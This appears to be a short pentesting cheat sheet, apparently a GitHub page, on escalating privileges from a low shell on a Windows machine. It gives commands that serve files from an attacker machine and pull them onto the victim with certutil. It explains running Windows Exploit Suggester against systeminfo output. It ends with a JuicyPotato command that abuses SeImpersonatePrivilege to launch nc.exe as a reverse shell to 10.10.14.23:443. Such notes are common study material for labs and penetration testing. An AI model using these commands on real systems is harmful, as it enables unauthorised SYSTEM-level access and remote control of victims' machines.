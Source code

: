 This post contents is about when you get a low, unprivileged shell on a Windows Machine.
First and foremost thing is to upload files on the system.
### Steps:
    Start server on attacker machine:
    >python3 -m http.server 80 #on attacker machine
    On victim machine:
    >certutil.exe -urlcache -split -f http://<ip><port>/path/to/file

Easy way to check for privilege escalation vulnerabilties is to use [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) 
Steps to use Windows-Exploit-Suggester
### Steps:
    On attacker machine:
    Install xlrd python library.
    >python windows-exploit-suggester.py -update #this will create a .xls file which will contain all ms cve's   
    On victim MS machine, run systeminfo to fetch system information, and save it locally on attacking machine as sys.txt.
    Then on attacking machine use
    >python windows-exploit-suggester.py --database file.xls --systeminfo sys.txt
    It will list all the vulnerabilties. 
    Note: [E] means Exploitdb, [M] means metasploitable

Priviledge exploitation
### ?
    whoami /priv ->lists priviledges current user has

### Some priviledges if enables to exploit
    1) SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
       If this is Enables then you are the SYSTEM.
       List of CLDIS
       juicypotato.exe -l 1234 -p nc.exe -a "-e cmd.exe 10.10.14.23 443" -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}
